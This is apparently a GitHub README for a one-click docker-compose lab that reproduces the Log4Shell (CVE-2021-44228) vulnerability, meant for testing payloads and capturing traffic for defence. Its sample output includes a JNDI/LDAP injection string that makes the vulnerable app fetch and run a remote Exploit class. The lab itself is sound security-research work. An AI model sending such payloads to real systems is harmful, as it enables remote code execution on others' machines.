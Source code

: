 # Full-chain dockerized Log4Shell (CVE-2021-44228)

Log4Shell (CVE-2021-44228) is a critical vulnerability in the popular log4j2 logging package.
This vulnerability is extremely easy to exploit, and was fixed in log4j2 version 2.15.
This repository goal is to automate and construct the environment through a single click by using `docker-compose` and containers.
This could be useful for:

- Testing different java version easily.
- Testing different payloads without constructing heavy setups.
- Capturing easily the traffic for security protection measures.
- More.

The setup contains:

- `vuln` - A vulnarable code using log4j2
- `marshalsec` - An LDAP server serving the exploit to log4j JDNI request
- `http-server` - A simple python server serving the compiled exploit java class file

Further explanation can be reached here:
https://www.lunasec.io/docs/blog/log4j-zero-day/

## Usage

Build and run all the containers

```bash
sudo docker-compose up --build
```

Once everything is up and running, you could see the next message, indicating the exploit was successful:

```
marshalsec_1   | Send LDAP reference result for Exploit redirecting to http://http-server:8888/Exploit.class
vuln_1         | Hello from exploit!
vuln_1         | 17:26:26.531 [main] ERROR log4j - ${jndi:ldap://marshalsec:1389/Exploit}
```

Behind the scenes, the vulnerable code is requesting the `Exploit` class from the LDAP server, and executes it.
You can freely modify the [Exploit](exploit/Exploit.java) file to make custom exploits, or the [log4j](vuln/src/main/java/log4j.java) file to change the malicious log.

## Notes

In recent JDK version, the variable `com.sun.jndi.ldap.object.trustURLCodebase` is set to `false` by default, thus stopping effectively the attack. Thats why I set the java version to older than that.
